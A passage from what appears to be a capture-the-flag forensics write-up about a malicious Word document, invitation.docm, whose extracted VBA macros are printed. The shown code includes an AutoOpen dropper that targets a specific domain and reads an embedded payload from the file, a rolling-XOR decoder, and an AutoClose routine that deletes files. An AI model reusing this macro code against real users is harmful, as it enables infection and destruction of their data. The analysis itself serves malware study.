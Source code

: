 ## Skills Required

* VBA macros knowledge
* Javascript knowledge
* Basic encryption algorithm recognition

## Skills Learned

* VBA macros extraction
* VBA macros deobfuscation
* Javascript deobfuscation
* Carving out egg-hunting payloads

# Enumeration

We are given a file named `invitation.docm`. Before even analyzing we know that it probably contains macros due to its extension `.docm`. The `m` indicates that this file has embedded macros.

As always using `olevba` we can extract and analyze the macros.

```vbs
Public IAiiymixt As String
Public kWXlyKwVj As String


Function JFqcfEGnc(given_string() As Byte, length As Long) As Boolean
Dim xor_key As Byte
xor_key = 50
For i = 0 To length - 1
given_string(i) = given_string(i) Xor xor_key
xor_key = ((xor_key Xor 99) Xor (i Mod 254))
Next i
JFqcfEGnc = True
End Function

Sub AutoClose()
On Error Resume Next
Kill IAiiymixt
On Error Resume Next
Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
aMUsvgOin.DeleteFile kWXlyKwVj & "\*.*", True
Set aMUsvgOin = Nothing
End Sub

Sub AutoOpen()
On Error GoTo MnOWqnnpKXfRO
Dim chkDomain As String
Dim strUserDomain As String
chkDomain = "GAMEMASTERS.local"
strUserDomain = Environ$("UserDomain")
If chkDomain <> strUserDomain Then

Else

Dim gIvqmZwiW
Dim file_length As Long
Dim length As Long
file_length = FileLen(ActiveDocument.FullName)
gIvqmZwiW = FreeFile
Open (ActiveDocument.FullName) For Binary As #gIvqmZwiW
Dim CbkQJVeAG() As Byte
ReDim CbkQJVeAG(file_length)
Get #gIvqmZwiW, 1, CbkQJVeAG
```